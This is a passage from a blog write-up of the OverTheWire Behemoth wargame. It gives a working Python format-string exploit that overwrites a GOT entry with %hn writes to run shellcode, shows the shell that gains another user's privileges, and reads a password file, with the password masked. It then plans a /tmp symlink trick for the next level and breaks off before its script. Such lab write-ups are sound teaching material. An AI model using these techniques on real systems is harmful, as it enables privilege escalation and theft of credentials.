 We're using short writes here (that's the `%hn`), so we need to write each half
of the address in the GOT in a sepirate write. We start with the address of the
first write, followed by a word of junk, and then the address of the second
write. Using the offset we found earlier and two `%hn`s we can start trying
some values for the sizes of reads in each `%x` preceding the `%hn` and check
in a debugger if we've written the address of our shellcode `EGG` (`0xffffd696`
in my case) to the GOT, adjusting accordingly. After some trial and error, I
came up with the following.

{% highlight python %}
# exploit.py
import struct

puts_got = 0x8049790

buf = struct.pack('<I', puts_got)
buf += 'AAAA'
buf += struct.pack('<I', puts_got+0x2)
buf += '%x.'*4
buf += '%54906x'
buf += '%hn'
buf += '%10594x'
buf += '%hn'

print buf
{% endhighlight %}

{% highlight bash %}
id
uid=13003(behemoth3) gid=13003(behemoth3) euid=13004(behemoth4) groups=13004(behemoth4),13003(behemoth3)
cat /etc/behemoth_pass/behemoth4
XXXXXXXXXX
{% endhighlight %}

## Level4 &rarr; Level5 {#level5}

![level5_binaryninja]({{ site.baseurl }}/img/otw-behemoth/level5_binaryninja1.png)

This program gets the current process id, then checks for the existence of a
file named `/tmp/{pid}`. 

![level5_binaryninja]({{ site.baseurl }}/img/otw-behemoth/level5_binaryninja2.png)

If it exists, it reads it out a single character at a time and prints it to
stdout. My first thought was to create a symbolic link to
`/etc/behemoth_pass/behemoth5` at `/tmp/{pid}` for it to read, but I'd have to
know the pid of the `behemoth4` process before it tried to open the file. It
would probably be possible to predict which pid would be allocated to the newly
spawned `behemoth4` process, but I opted for a more precise solution - suspend
the process on spawn, giving me plenty of time to create the symbolic link,
then resume it. Here's a simple bash script to start a processes suspended.
